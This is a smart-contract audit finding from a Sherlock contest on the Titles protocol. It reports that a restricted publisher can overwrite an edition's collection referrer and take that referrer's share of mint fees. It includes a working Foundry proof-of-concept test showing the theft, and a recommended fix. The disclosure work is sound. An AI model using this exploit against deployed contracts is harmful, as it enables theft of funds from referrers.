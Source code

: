 Rural Topaz Narwhal

high

# The Edition_Publisher can put himself as collection referrer after creation of the edition and steal the referrers profits.

## Summary

The collection referrer can be set upon creation of an Edition and she will receive a cut of all mint fees for that Edition.

A publisher (EDITION_PUBLISHER_ROLE) is, per ReadMe, a Restricted (not trusted outside of given responsibilities) role which should only allow a publisher to publish a new work in an edition for which he has been given the aforementioned role. 

Yet, whenever the publisher calls `TitlesCore:: publish` to publish a new work to an edition, he is obliged to set a  `referrer_`  which will overwrite the collection referrer set at the creation. The publish function calls  `FeeManager:: createRoute` which sets  `referrers[edition_] = referrer_` in the last line.  

As such, it is trivially easy for the publisher to replace the collection referrer with himself and steal all the fees from the original collection referrer. 

## Vulnerability Detail

The ReadMe states:
>EDITION_PUBLISHER_ROLE (Restricted) =>
  On TitlesCore, this role can:
    1) Publish a new work under any Edition for which they have been granted the role (i.e. `edition.hasAnyRole(msg.sender, EDITION_PUBLISHER_ROLE)` is true) (`publish`). After auth, the request is passed to the Edition contract for further handling.


Assume Alice has made it a business to promote Titles among creatives. She convinces Bob the artist to join and she gives him a referral link so that Bob can create a new Edition  with herself as collection referrer. All is working as it should, Bob expands his collection with new works, revenue is flowing in from mints and Alice gets her small cut. Bob wants to focus on creating new art and he appoint Hank as his publisher. 

Hank however,  is greedy and calls  `TitlesCore:: publish(edition, work_, Hank)` to replace himself as the collection referrer. Hank now receives all the profits that Alice should have gotten and will continue to do as long he remains publisher. 

The PoC below illustrates this.

Please the below code to `wallflower-contract-v2/test/TitlesCore.t.sol` and run with `forge test --match-test test_changeCollectionReferrer -vv`

```solidity 
import {Edition} from "src/editions/Edition.sol";

    function test_changeCollectionReferrer() public {


        // creating collection referrer Alice, creator Bob and publisher Hank
        address Alice = address(5000);
        address Bob = address(1200000);
        address Hank = address(666);
        vm.deal(Bob, 1 ether);
        vm.deal(Hank, 1 ether);

        // payload for edition creation
        TitlesCore.EditionPayload memory payload = TitlesCore.EditionPayload({
            work: TitlesCore.WorkPayload({
                creator: Target({target: address(Bob), chainId: block.chainid}),
                attributions: new Node[](0),
                maxSupply: 100,
                opensAt: uint64(block.timestamp),
                closesAt: uint64(block.timestamp + 3 days),
                strategy: Strategy({
                    asset: ETH_ADDRESS,
                    mintFee: 0.05 ether,
                    revshareBps: 1000,
                    royaltyBps: 250
                }),
                metadata: Metadata({label: "Werk", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)})
            }),
            metadata: Metadata({label: "Edition", uri: "https://ipfs.io/{{editionHash}}", data: new bytes(0)})
        });
        bytes memory payload_ = LibZip.cdCompress(abi.encode(payload));

        vm.startPrank(address(Bob));
        // edition creation with Alice as the collection referrer
        Edition edition = titlesCore.createEdition{value: titlesCore.feeManager().getCreationFee().amount}(payload_, Alice);   
        console.log("Collection referrer on creation of the edition: %s",titlesCore.feeManager().referrers(edition));
        // output:   Collection referrer on creation of the edition: Alice == 0x0000000000000000000000000000000000001388


        // Bob grants Hank the EDITION_PUBLISHER_ROLE
        edition.grantPublisherRole(address(Hank));
        vm.stopPrank();

        vm.startPrank(address(Hank));
        // payload for publishing new work in the same collection 
        TitlesCore.WorkPayload memory workPayload = TitlesCore.WorkPayload({
            creator: Target({target: address(this), chainId: block.chainid}),
            attributions: new Node[](0),
            maxSupply: 5,
            opensAt: uint64(block.timestamp),
            closesAt: uint64(block.timestamp + 30 days),
            strategy: Strategy({
                asset: ETH_ADDRESS,
                mintFee: 0.0005 ether,
                revshareBps: 700,
                royaltyBps: 250
                }),
            metadata: Metadata({label: "Plezier", uri: "https://ipfs.io/{{hash}}", data: new bytes(0)})

        });
        bytes memory workPayload_ = LibZip.cdCompress(abi.encode(workPayload));

        // Hank publishes a new work in the collection and steals the referrer position by replacing Alice with himself.  
        titlesCore.publish{value: titlesCore.feeManager().getCreationFee().amount }(edition,workPayload_, Hank);
        
        console.log("Collection referrer after publishing a work: %s",titlesCore.feeManager().referrers(edition));
        // output: Collection referrer after publishing a work: Hank == 0x0000000000000000000000000000000000124f80
        // Hank has taken the collection referrer from Alice and now receives all the profits that she should have gotten.
        vm.stopPrank(); 

    }
```


## Impact

Per Sherlock Rules, this findings meets the criteria for IV. High finding since:
- The publisher is a RESTRICTED role which is not supposed to be able to change the fee distribution. 
- There is a definite loss of funds for the collection referrer. 
- There are no external conditions or limitations for stealing the profits.
- Changing the collection referrer is clearly against intended design. 


## Code Snippet

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/TitlesCore.sol#L72-L149

https://github.com/sherlock-audit/2024-04-titles/blob/main/wallflower-contract-v2/src/fees/FeeManager.sol#L120-L160

## Tool used

Manual Review + Foundry

## Recommendation

Since the collection referrer should only be set at creation of the Edition, the simplest solution is to remove  `referrers[edition_] = referrer_` from `FeeManager:: createRoute` and add it at the end of `TitlesCores::createEdition`. In this way, it becomes impossible for anyone to change the collection referrer after creation. 


